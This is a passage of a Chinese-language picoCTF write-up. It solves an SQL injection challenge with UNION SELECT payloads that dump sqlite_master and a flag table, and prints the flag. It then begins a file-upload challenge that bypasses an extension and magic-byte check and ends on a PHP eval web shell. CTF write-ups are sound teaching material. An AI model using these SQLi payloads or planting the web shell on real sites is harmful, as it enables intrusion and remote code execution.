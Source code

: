 ```sql=
SELECT city, address, phone FROM {TABLE_NAME} WHERE city = '' UNION SELECT name, sql, 1337 FROM sqlite_master; --';
```

這邊我們使用聯集合併兩個查詢結果，因為第一個結果為空集合，所以返回的結果就會是 sqlite_master 的表格內容，如下:

![找到flag所在的表格了](https://hackmd.io/_uploads/BysgmNY8R.png)

我們可以看到被紅色框框圈住的地方就是我們所想獲得的 flag，既然知道表格名稱，也知道表格的結構了，就把它查詢出來吧！使用這段 payload `' UNION SELECT 1, flag, 1 FROM more_table; --`。輸入後就可以看到以下的介面啦！

![flag](https://hackmd.io/_uploads/SyoSNNtLA.png)

flag 就找到囉！

```txt
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_78d0583a}
```

# Trickster

這題的題目是一個可以上傳 png 的網頁，看起來就是文件上傳漏洞，頁面如下:

![題目](https://hackmd.io/_uploads/HkocKNtIA.png)

~~秉持著不知道要幹嘛的時候先掃路徑的精神~~，可以找到它的 robots.txt，它其中禁止了兩個路徑，如下:

```txt
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

既然它都禁止了，我們就去看看吧 XD。`/uploads/`應該就是它的上傳後的文件路徑了，而它 instructions.txt 的內容如下:

```txt
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```

所以我們知道後端驗證檔案是否為 png 的方法有二，其一為檢查文件後綴名是否為 `.png`；其二為驗證文件的 magic bytes，看文件在十六進制中的前幾個位元組是否為 `50 4E 47`。

知道了這些信息後，我們先隨便找一張 png 圖片上傳看看吧！（我這邊直接隨便截圖，並命名為 `hack.png`）。並且在 upload 的過程中用 Burp suite 去攔截封包，並修改其中的檔案名稱及檔案內容。這邊把檔案名稱改為 `hack.png.php`，並在檔案內容的 PNG 以下添加這個[php 一句話木馬](https://xz.aliyun.com/t/6957?time__1311=n4%2BxnD0DRDyD9iDuDRhxBqOoQRQ40xAK5q5vKx&alichlgref=https%3A%2F%2Fwww.google.com%2F)

```php=
<?php @eval($_POST['shell']);?>
```
